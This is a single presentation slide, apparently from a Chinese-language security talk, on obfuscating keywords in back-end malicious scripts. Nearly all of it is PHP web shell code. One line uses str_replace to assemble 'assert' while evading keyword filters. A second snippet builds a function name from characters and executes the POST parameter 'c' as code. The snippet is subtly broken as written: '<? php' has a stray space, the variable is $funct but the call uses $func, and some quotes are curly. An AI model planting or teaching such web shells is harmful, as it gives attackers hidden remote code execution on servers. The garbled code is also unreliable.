

# 字符替换或特殊编码（在后端恶意脚本里）
使用字符替换防止关键字过滤
$a=str_replace (x,””,”axsxxsxexrxxt”)
字符串组合法隐藏关键字

<? php
$str = 'aerst';
$funct = $str{0}.$str{3}.$str{3}.$str{1}.$str{2}.$str{4};
@$func($_POST['c']);
?>
25
2022/6/11